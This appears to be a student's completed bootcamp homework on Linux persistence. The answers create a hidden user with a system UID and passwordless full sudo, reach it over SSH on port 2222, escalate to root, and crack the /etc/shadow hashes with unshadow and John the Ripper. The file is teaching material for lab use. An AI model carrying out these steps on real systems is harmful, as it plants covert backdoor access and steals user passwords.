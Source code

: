 <<<<<<< HEAD
## Musie Belai Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

         useradd -M sysd
![sysd](image/sysd.png)

2. Give your secret user a password: 

         passwd sysd
    ![password](image/password.png)

3. Give your secret user a system UID < 1000:

        usermod -u 997 sysd
    ![UIDandGID](image/UIDandGID.png)


4. Give your secret user the same GID:

        groupmod -g 997 sysd
    ![UIDandGID](image/UIDandGID.png)

5. Give your secret user full `sudo` access without the need for a password:

        
        visudo
        sysd ALL=(ALL) NOPASSWD:ALL
    ![sudo](image/sudo.png)
    



6. Test that `sudo` access works without your password:

        sudo -l
    ![sudofile](image/sudofile.png)

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

                sudo nano /etc/ssh/sshd_config
    ![sshfile.png](image/sshfile.png)
        

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

        sudo systemctl restart ssh



2. Exit the `root` account:

        command exit or command su with the user account you want to switch to.

3. SSH to the target machine using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222
![sshsysd.png](image/sshsysd.png)

4. Use `sudo` to switch to the root user:

        sudo su 

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

        su sysd

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file: 

        sudo su
        unshadow passwd.txt shadow.txt > unshadowed.txt
        john --wordlist=/usr/share/john/password.lst unshadowed.txt



---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

